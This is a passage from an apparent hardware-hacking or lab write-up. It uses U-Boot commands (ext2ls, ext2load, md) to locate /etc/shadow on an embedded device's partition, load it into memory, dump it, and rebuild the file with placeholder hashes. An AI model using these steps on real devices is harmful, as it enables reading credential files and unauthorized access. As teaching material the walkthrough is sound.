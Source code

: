 Ahh so it looks like partition `2` has an `etc` folder in it, lets see whats inside:
```
=> ext2ls mmc 0:2 /etc
<DIR>       1024 .
<DIR>       1024 ..
              78 shadow
```

Fantastic! We have found the /etc/shadow file - now we just need to read it. To read files in U-Boot, we need to load them into memory first. This can be done by re-using the `scriptaddr` address we had seen in `printenv` earlier:
```
=> ext2load
ext2load - load binary file from a Ext2 filesystem

Usage:
ext2load <interface> [<dev[:part]> [addr [filename [bytes [pos]]]]]
    - load binary file 'filename' from 'dev' on 'interface'
      to address 'addr' from ext2 filesystem.
=> printenv
...
scriptaddr=0x00c00000
...
=> ext2load mmc 0:2 0x00c00000 /etc/shadow
78 bytes read in 44 ms (1000 Bytes/s)
```

Once in memory, we can dump that memory to see the contents of the file:
```
=> md 0x00c00000
00c00000: 00000000 00000000 00000000 00000000    ................  # NOTE: contents of the file will be displayed here :)
00c00010: 00000000 00000000 00000000 00000000    ................
00c00020: 00000000 00000000 00000000 00000000    ................
00c00030: 00000000 00000000 00000000 00000000    ................
00c00040: 00000000 00000000 00000000 00000000    ................
00c00050: 00000000 00000000 00000000 00000000    ................
00c00060: 00000000 00000000 00000000 00000000    ................
00c00070: 00000000 00000000 00000000 00000000    ................
00c00080: 00000000 00000000 00000000 00000000    ................
00c00090: 00000000 00000000 00000000 00000000    ................
00c000a0: 00000000 00000000 00000000 00000000    ................
00c000b0: 00000000 00000000 00000000 00000000    ................
00c000c0: 00000000 00000000 00000000 00000000    ................
00c000d0: 00000000 00000000 00000000 00000000    ................
00c000e0: 00000000 00000000 00000000 00000000    ................
00c000f0: 00000000 00000000 00000000 00000000    ................
```

We can then take those contents and create our own copy of the shadow file which should look somthing like this:
```
admin:<FILL_IN_FROM_MD_COMMAND>:19645:0:99999:7:::
guest:<FILL_IN_FROM_MD_COMMAND>:14233:0:99999:7:::
```
